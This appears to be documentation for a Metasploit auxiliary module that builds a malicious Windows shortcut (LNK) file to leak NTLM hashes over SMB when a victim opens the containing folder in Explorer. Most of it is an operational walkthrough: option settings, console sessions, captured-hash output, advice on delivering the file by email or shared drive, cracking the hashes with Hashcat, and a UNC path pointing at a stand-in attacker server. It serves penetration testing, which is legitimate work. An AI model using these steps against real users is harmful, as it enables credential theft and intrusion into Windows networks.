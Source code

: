 This module generates a malicious Windows shortcut (LNK) file that embeds a special UNC path within the SpecialFolderDatablock of the Shell Link structure. When a victim browses to or interacts with the LNK file in Windows Explorer, it triggers an authentication attempt to the specified remote SMB server, enabling the capture of NTLM hashes.

This technique leverages a vulnerability in how Windows handles certain LNK file structures, resulting in automatic SMB connections without user interaction. The module can either point to a user-specified UNC path or start an integrated SMB capture server to harvest credentials.

Tested on Windows systems where Explorer processes LNK files.

## Vulnerable Application

Windows operating systems that process LNK files via Explorer, particularly when browsing directories containing the malicious shortcut. This can lead to NTLM credential leaks over SMB.

References:
- [Right-Click LNK](https://zeifan.my/Right-Click-LNK/)
- [Exploit-DB 42382](https://www.exploit-db.com/exploits/42382)
- [Related Metasploit Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/cve_2017_8464_lnk_rce.rb)

Disclosure Date: 2025-05-10 (reported to MSRC).

## Verification Steps

1. Start msfconsole.
2. Load the module: `use auxiliary/fileformat/specialfolderdatablock_lnk`.
3. Customize options as needed (e.g., set FILENAME, UNCPATH, or APPNAME).
4. Execute the module: `run`.
5. A malicious LNK file will be generated.
6. If not using a custom UNCPATH, the module starts an SMB capture server automatically.
7. Place the LNK file in a directory on the target system.
8. Browse to the directory in Windows Explorer to trigger the SMB connection.
9. Monitor the console for captured NTLM hashes.

## Options

**FILENAME**

Specifies the name of the generated LNK file.

Default: `msf.lnk`

Example:
```
set FILENAME malicious.lnk
```

**UNCPATH**

Defines the UNC path (e.g., `\\server\share`) that the LNK file will attempt to access. If not set, the module starts its own SMB server.

Example:
```
set UNCPATH \\192.168.1.100\share
```

**APPNAME**

Sets the display name of the application in the LNK file. If empty, a random name is generated.

Example:
```
set APPNAME FakeApp
```

**Advanced Options**

**SRVHOST**

The local host to listen on for the integrated SMB server (if UNCPATH is not set).

Default: `0.0.0.0`

Example:
```
set SRVHOST 192.168.1.25
```

**SRVPORT**

The local port for the integrated SMB server.

Default: `445`

Example:
```
set SRVPORT 445
```

## Scenarios

### Basic NTLM Hash Capture on Windows

Target: A Windows system with Explorer (e.g., Windows 10 or later).

Attacker: Use the module to generate the LNK and capture hashes locally.

```
msf > use auxiliary/fileformat/specialfolderdatablock_lnk
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set FILENAME malicious.lnk
FILENAME => malicious.lnk
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set SRVHOST 192.168.1.25
SRVHOST => 192.168.1.25
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set APPNAME FakeApp
APPNAME => FakeApp
msf auxiliary(fileformat/specialfolderdatablock_lnk) > run

[*] Starting SMB server on 192.168.1.25:445
[*] Generating malicious LNK file
[+] malicious.lnk stored at /root/.msf4/local/malicious.lnk
[*] Listening for hashes on 192.168.1.25:445
[*] Auxiliary module execution completed
```

Deliver the `malicious.lnk` file to the target (e.g., via email or shared drive). When the victim opens the containing folder in Explorer, an SMB connection is attempted:

```
[*] SMB Captured - 2025-09-18 21:03:00 +0530
NTLMv2 Response Captured from 192.168.1.50:49180 - 192.168.1.50
USER:targetuser DOMAIN:TARGETPC OS: Windows 10 LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:examplehashvalue
NT_CLIENT_CHALLENGE:examplechallenge
```

Crack the captured hash using tools like Hashcat to recover credentials.

### Using a Custom UNC Path

If you have an external SMB server set up (e.g., for remote capture):

```
msf auxiliary(fileformat/specialfolderdatablock_lnk) > set UNCPATH \\attacker.server\captureshare
UNCPATH => \\attacker.server\captureshare
msf auxiliary(fileformat/specialfolderdatablock_lnk) > run

[*] Generating malicious LNK file pointing to \\attacker.server\captureshare
[+] malicious.lnk stored at /root/.msf4/local/malicious.lnk
[*] Auxiliary module execution completed
```

Monitor your external SMB server for incoming authentication attempts.